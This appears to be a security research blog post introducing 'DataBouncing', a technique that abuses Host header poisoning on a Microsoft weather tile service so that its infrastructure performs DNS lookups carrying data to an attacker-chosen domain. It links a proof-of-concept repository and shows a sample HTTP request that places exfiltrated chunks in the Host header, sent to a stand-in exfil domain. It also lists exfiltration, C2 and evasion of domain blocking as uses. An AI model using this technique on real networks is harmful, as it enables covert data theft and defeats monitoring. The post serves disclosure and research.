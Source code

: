 💡

PoC Code here from a very kind [Nick Dunn](https://twitter.com/N1ckDunn?ref=thecontractor.io) giving his time to get something functional out for y'all to play with, grow, whatever  
  
[https://github.com/N1ckDunn/DataBouncing](https://github.com/N1ckDunn/DataBouncing?ref=thecontractor.io)  
  
_this_ is to be used in conjunction with an [interactsh](https://github.com/projectdiscovery/interactsh?ref=thecontractor.io) server  
you have to be a little nerdy to pull it off, you have to be super nerdy to help expand this to a bigger tool.  
 

## What does this mean?

- Trusted & High ranking domains will be the most abused as they offer trust that may be mismeasured
- Exfil/C2 Data sends becomes way easier with this new method
- Many web restrictions are no longer applicable - geoblocking, domain blocking, blocking blocking
- Risks & Threat Models will need adjusting
- User Tracking could become more aggressive - Sorry Pi-Hole.
- Swamping the SoC with false alarms - feeding known bad addresses instead of exfil destinations
- Send data out of Cellular/Phone networks with no credit - (I wonder if this works for other cellular/sim blocks - could be a nice heartbeat/proof of life/short messenger in conflict zones
- What else?

I'm sure this list will expand with other renditions of the principle

## The Penny Dropping...

I had noticed that on  http://tile-service.weather.microsoft.com there was a Host header poisoning issue, usually dismissed as N/A in previous contexts Pentesting/Bug-bounty with no real demonstratable impact.

> GET /en-GB/livetile/preinstall HTTP/1.1  
> User-Agent: Microsoft-WNS/10.0  
> Host: **tile-service.weather.microsoft.com**  
> Connection: close

Could Be...

> GET /en-GB/livetile/preinstall HTTP/1.1  
> User-Agent: Microsoft-WNS/10.0  
>  Host: **_ExfilSmallDataChunksHere_.MyExfilDomain.com**  
> Connection: close

What was observed is that my request is hitting Microsoft's infrastructure and failing by way of an error page from Akamai Ghost. However, later on, I see this...

> The Collaborator server received a DNS lookup of type A for the domain name >_**ExfilSmallDataChunksHere**.MyExfilDomain.com._  
> The lookup was received from IP address 88.221.75.79:57999 at 2023-Sep-11 18:37:56.956 UTC.

Not only is this interesting, but it's also reliable, I can use this to send data to _tile-service.weather.microsoft.com_ ... nice, that will surely negate some domain-level controls amongst other defence stuff...
